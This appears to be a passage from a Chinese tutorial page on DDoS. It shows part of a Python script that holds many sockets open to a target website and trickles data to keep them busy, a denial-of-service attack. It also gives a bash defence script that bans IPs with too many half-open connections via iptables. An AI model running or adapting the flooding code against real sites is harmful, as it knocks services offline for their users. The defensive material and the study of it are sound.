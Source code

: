 ```python

# socket循环对目标网站发数据
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode("utf-8"))
                print("send f OK!")
            except Exception as ex:
                print("Send Exception:%s\n" % ex)
                socks.remove(s)
                s.close()
        time.sleep(0.1)

# 多线程执行两个函数
conn_th = threading.Thread(target=conn_thread, args=())
send_th = threading.Thread(target=send_thread, args=())

conn_th.start()
send_th.start()
```

防御shell脚本

```bash
#!/bin/bash
#
#********************************************************************
#Author:                songliangcheng
#QQ:                    2192383945
#Date:                  2021-03-08
#FileName：             /usr/local/bin/ddos.sh
#URL:                   http://liangcheng.mykernel.cn
#Description：          如果IP只封禁30分钟，就30分钟执行一次crontab
#Copyright (C):        2021 All rights reserved
#********************************************************************
syn_recv_per_ip=5

# 添加DDOS链, INPUT引用
iptables -N DDOS 2>/dev/null
if iptables -vnL INPUT | awk '{print $3}' | grep -q DDOS; then
  true
else
  iptables -I INPUT -j DDOS
fi

# 解封之前封禁的IP
for ip in $(cat /var/tmp/clear); do
  LINE=$(iptables --line -vnL DDOS | grep $ip | awk '{print $1}')
  iptables -D DDOS $LINE
  echo "$ip clear at `date`" >>/var/log/ddos.log
done

# 把处于SYN-RECV的连接的源地址统计，其数量达到5个的IP统计，并禁用
ss -tnp -o state syn-recv | awk  'NR>=2{split($4,peer_addresses,":");print peer_addresses[1]}' | sort | uniq -c | sort -rn | awk -v syn_recv_per_ip=$syn_recv_per_ip '{if ($1 >=syn_recv_per_ip) {print $2}}' > /tmp/dropip
for i in $(cat /tmp/dropip); do
  /sbin/iptables -A DDOS -s $i -j DROP
  echo "$i kill at `date`" >>/var/log/ddos.log
done

# 把当前封禁的IP记录
```